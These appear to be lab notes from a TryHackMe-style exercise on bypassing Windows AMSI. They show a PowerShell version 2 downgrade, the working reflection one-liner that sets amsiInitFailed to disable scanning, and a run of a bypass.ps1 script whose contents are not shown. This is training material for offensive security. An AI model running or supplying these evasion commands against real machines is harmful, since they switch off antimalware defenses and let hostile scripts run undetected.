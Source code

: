 
# PowerShell Downgrade

![]()

```PowerShell
C:\Users\THM-Attacker>PowerShell -Version 2
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.
```

![]()

![]()

# PowerShell Reflection

![]()

```PowerShell
PS C:\Users\THM-Attacker> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

![]()

# Patching AMSI

![]()

```PowerShell
C:\Users\THM-Attacker>cd Desktop
```

```PowerShell
C:\Users\THM-Attacker\Desktop>PowerShell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```

```PowerShell
PS C:\Users\THM-Attacker\Desktop> .\bypass.ps1
True
```

![]()

![]()

